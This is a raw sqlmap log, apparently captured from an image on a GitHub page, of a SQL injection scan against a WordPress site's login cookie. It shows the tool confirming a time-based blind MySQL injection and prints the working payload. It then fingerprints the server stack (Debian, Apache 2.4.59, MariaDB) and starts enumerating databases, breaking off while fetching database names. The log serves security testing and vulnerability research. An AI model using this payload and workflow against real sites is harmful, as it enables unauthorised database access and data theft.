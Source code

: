 ```

[11:09:26] [WARNING] please consider usage of tamper scripts (option '--tamper')
[11:09:26] [INFO] testing if the target URL content is stable
[11:09:27] [WARNING] (custom) HEADER parameter 'Cookie #1*' does not appear to be dynamic
do you want to URL encode cookie values (implementation specific)? [Y/n] 

[11:09:29] [WARNING] heuristic (basic) test shows that (custom) HEADER parameter 'Cookie #1*' might not be injectable
[11:09:29] [INFO] testing for SQL injection on (custom) HEADER parameter 'Cookie #1*'
[11:09:29] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:09:30] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[11:09:31] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[11:09:32] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[11:09:32] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL)'
[11:09:32] [INFO] testing 'Boolean-based blind - Parameter replace (CASE)'
[11:09:32] [INFO] testing 'Generic inline queries'
[11:09:32] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[11:09:34] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[11:09:34] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[11:09:35] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[11:09:36] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[11:09:38] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[11:09:38] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[11:09:38] [INFO] testing 'MySQL inline queries'
[11:09:38] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[11:09:39] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:10:10] [INFO] (custom) HEADER parameter 'Cookie #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (1) values? [Y/n] 

[11:10:12] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:10:12] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:10:14] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[11:10:17] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[11:10:19] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[11:10:21] [INFO] checking if the injection point on (custom) HEADER parameter 'Cookie #1*' is a false positive
(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 

sqlmap identified the following injection point(s) with a total of 205 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: wordpress_logged_in=" AND (SELECT 9724 FROM (SELECT(SLEEP(5)))IDCZ) AND "NyJG"="NyJG
---
[11:11:40] [INFO] the back-end DBMS is MySQL
[11:11:40] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
web server operating system: Linux Debian
web application technology: Apache 2.4.59
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:11:56] [INFO] enumerating database management system schema
[11:11:56] [INFO] fetching database names
[11:11:56] [INFO] fetching number of databases
```